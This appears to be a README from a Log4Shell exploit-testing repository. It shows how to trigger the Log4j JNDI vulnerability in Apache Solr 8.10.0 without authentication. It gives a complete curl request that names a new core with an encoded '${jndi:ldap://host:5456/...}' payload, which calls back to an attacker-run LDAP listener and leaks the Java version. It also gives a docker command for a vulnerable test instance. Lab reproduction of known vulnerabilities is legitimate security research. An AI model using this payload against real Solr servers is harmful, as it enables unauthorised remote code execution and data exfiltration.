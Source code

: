 # apache solr

- Version: `8.10.0`
- Auth required: No

## details

Can be triggered by configuring a new core, naming it the log4j payload.

This cURL request should do (where `host` is where [pwn.py](../../../pwn.py) is running with the `-k` flag):

```bash
curl 'http://localhost:8983/solr/admin/cores?_=1639544088432&action=CREATE&config=solrconfig.xml&dataDir=data&instanceDir=new_core&name=$%7Bjndi:ldap:%2F%2Fhost:5456%2F$%7Bjava:version%7D%7D&schema=schema.xml&wt=json'
```

## run

```bash
docker run --rm --name solr -p 8983:8983 solr:8.10.0
```

## example

![1](images/1.png)
